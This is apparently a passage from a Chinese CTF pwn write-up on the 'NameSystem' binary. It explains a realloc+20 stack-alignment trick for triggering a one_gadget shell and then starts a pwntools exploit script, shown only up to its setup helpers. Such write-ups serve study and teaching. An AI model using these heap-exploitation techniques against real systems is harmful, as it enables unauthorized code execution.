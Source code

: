 realloc内部
![](IMG/HuXiang/realloc2.png)

从realloc+20开始，构造"a"*0xb+p64(one)+p64(realloc+20)
发现 $rsp+0x70 为0 , 满足0xf1147的条件成功getshell
关于栈空间内存值和realloc地址之间的关系还是高度依赖环境。

从这道题目来看，再次申请free_got 直接system("/bin/sh") 似乎是更好的选择 。。。
### 利用脚本

```
#!/usr/bin/env python2
# -*- coding: utf-8 -*-
from pwn import *
import sys
import os
debug = 1
exe = "./NameSystem"

r = lambda x:io.recv(x)
ru = lambda x:io.recvuntil(x)
rud = lambda x:io.recvuntil(x,drop=True)
rul = lambda:io.recvline()
sd = lambda x:io.send(x)
sl = lambda x:io.sendline(x)
sea = lambda x,y:io.sendafter(x,y)
sela = lambda x,y:io.sendlineafter(x,y)

context.terminal = ["tmux","splitw","-h"]
elf = ELF(exe)
context.arch = elf.arch

if debug:
    context.log_level = "debug"

arena64 = 0x3c4b20
arena32 = 0x1b2780

def pre(libc_version):
    glibc_dir = '/glibc/{arch}/{libc}/lib/libc-{libc}.so'.format(arch=elf.arch,libc=str(libc_version))
    ld_dir = '/glibc/{arch}/{libc}/lib/ld-{libc}.so'.format(arch=elf.arch,libc=str(libc_version))
    if libc_version==0:
        io = process(exe)
        return io
    else:
        io = process(exe,env={"LD_PRELOAD":glibc_dir})
        cmd = "patchelf --set-interpreter {} {}".format(ld_dir,os.getcwd()+"/"+exe)
        os.system(cmd)
        return io
 
def dbg(breakpoint=0):
```